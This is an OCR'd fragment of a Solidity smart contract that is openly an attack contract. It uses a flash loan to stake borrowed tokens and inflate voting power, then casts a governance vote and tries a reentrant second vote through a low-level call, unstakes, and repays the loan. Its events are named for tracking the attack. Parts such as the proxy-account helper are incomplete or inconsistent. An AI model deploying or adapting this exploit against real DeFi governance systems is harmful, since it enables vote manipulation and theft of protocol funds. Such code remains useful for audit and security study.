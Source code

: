 ```solidity
    function flashLoanGovernanceCallback(uint256 proposalId) external {
        require(msg.sender == address(flashLoanProvider), "Invalid caller");

        AttackPlan storage attack = attacks[proposalId];
        uint256 loanAmount = IERC20(stakeToken).balanceOf(address(this));

        // Step 1: Stake flash loan to increase voting power
        stakeHub.stake(loanAmount);

        // Step 2: Vote with combined power (stake + delegation loop)
        // Delegation loop creates infinite recursion in vote weight calculation
        govHub.castVote(proposalId, 1); // Support

        // Step 3: Execute reentrancy attack for additional votes
        executeReentrancyVote(proposalId);

        // Step 4: Unstake before repaying flash loan
        stakeHub.unstake(loanAmount);

        // Step 5: Repay flash loan
        IERC20(stakeToken).transfer(address(flashLoanProvider), loanAmount);

        attack.executed = true;

        emit GovernanceAttackCompleted(proposalId, loanAmount);
    }

    function executeReentrancyVote(uint256 proposalId) internal {
        // Trigger reentrancy during vote weight calculation
        // This exploits the mathematical inconsistency in vote counting
        (bool success, ) = address(govHub).call(
            abi.encodeWithSelector(
                IGovHub.castVote.selector,
                proposalId,
                1
            )
        );

        if (success) {
            emit ReentrancyVoteSuccessful(proposalId);
        }
    }

    function createProxyAccount(uint256 salt) internal returns (address) {
        // Create proxy account for delegation loop
        bytes memory bytecode = abi.encodePacked(
            type(ProxyAccount).creationCode,
            abi.encode(address(this))
        );

        bytes32 hash = keccak256(
            abi.encodePacked(bytes1(0xff), address(this), salt, keccak256(bytecode))
        );

        return address(uint160(uint256(hash)));
    }

    // Events for attack tracking
    event DelegationLoopEstablished(address[] accounts);
    event GovernanceAttackCompleted(uint256 proposalId, uint256 amount);
    event ReentrancyVoteSuccessful(uint256 proposalId);
}

```